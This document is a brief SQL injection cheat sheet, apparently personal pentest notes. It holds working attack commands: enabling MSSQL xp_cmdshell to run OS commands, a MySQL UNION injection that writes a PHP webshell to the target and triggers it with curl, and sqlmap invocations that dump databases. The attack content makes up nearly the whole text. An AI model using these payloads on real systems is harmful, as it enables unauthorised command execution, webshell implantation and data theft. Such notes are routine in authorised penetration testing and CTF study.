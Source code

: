 # SQLi

## MSSQL 

```
impacket-mssqlclient account:passwd@ip -windows-auth

SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
```

## MySQL

Injection:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
```

## sqlmap

```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump
```


